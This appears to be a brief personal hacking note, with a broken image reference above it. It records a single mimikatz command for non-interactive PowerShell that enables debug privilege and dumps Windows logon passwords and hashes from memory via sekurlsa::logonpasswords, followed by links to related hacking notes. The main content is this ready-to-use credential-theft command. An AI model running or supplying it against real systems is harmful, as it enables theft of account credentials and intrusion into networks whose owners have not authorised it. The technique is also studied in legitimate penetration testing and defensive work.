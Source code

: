 # mimikatz all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

# References
- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted
